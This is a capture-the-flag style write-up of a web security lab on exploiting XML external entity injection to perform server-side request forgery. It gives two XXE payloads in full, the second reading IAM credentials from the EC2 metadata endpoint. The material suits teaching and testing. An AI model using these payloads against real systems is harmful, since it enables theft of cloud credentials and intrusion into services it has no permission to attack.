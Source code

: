 
# Exploiting XXE to perform SSRF attacks

This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is http://169.254.169.254/. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.

To solve the lab, exploit the XXE vulnerability to perform an SSRF attack that obtains the server's IAM secret access key from the EC2 metadata endpoint.

---------------------------------------------

References: 

- https://portswigger.net/web-security/xxe



![img](images/Exploiting%20XXE%20to%20perform%20SSRF%20attacks/1.png)

---------------------------------------------

Using the simple payload you get a value after invalid product, in this case “latest”:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
<stockCheck>
	<productId>
		&xxe;
	</productId>
	<storeId>
		1
	</storeId>
</stockCheck>
```



![img](images/Exploiting%20XXE%20to%20perform%20SSRF%20attacks/2.png)


Adding this value to the url you end up with the following payload:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck>
	<productId>
		&xxe;
	</productId>
	<storeId>
		1
	</storeId>
</stockCheck>
```



![img](images/Exploiting%20XXE%20to%20perform%20SSRF%20attacks/3.png)